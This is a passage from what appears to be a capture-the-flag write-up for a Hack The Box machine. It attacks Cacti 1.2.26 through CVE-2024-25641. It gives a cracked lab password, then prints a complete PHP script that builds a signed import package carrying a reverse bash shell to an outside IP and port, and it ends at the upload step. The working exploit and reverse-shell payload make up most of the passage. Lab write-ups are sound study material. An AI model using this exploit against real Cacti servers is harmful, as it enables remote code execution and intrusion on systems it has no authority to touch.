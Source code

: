 I cracked the hash using hashcat which corresponds to: greencacti2001

![NMAP](/static/writeups/HTB-S-VI/monitors/8.png)

Now, lets use these credential in login.php and 'cacti.monitorsthree.htb'. One thing i notice when opening 'cacti.monitorsthree.htb' is it is using cacti v 1.2.26 and quick research shows us vulnerability in this specific version to use Arbitrary file write to RCE.

[CVE-2024-25641](https://github.com/StopThatTalace/CVE-2024-25641-CACTI-RCE-1.2.26.git)

To get shell i used this:

```
<?php

$xmldata = "<xml>
   <files>
       <file>
           <name>resource/shell.php</name>
           <data>%s</data>
           <filesignature>%s</filesignature>
       </file>
   </files>
   <publickey>%s</publickey>
   <signature></signature>
</xml>";
$filedata = "<?php
\$ip = '10.10.14.59';
\$port = 3669;
\$sock = fsockopen(\$ip, \$port);
\$proc = proc_open('/bin/bash -i', array(0 => \$sock, 1 => \$sock, 2 => \$sock), \$pipes);
?>";
$keypair = openssl_pkey_new();
$public_key = openssl_pkey_get_details($keypair)["key"];
openssl_sign($filedata, $filesignature, $keypair, OPENSSL_ALGO_SHA256);
$data = sprintf($xmldata, base64_encode($filedata), base64_encode($filesignature), base64_encode($public_key));
openssl_sign($data, $signature, $keypair, OPENSSL_ALGO_SHA256);
file_put_contents("shell.xml", str_replace("<signature></signature>", "<signature>".base64_encode($signature)."</signature>", $data));
system("cat shell.xml | gzip -9 > shell.xml.gz; rm shell.xml");

?>


```

save this as shell.php and run it using `php shell.php`, it will generate file called shell.xml.gz upload it in import packages in cacti:
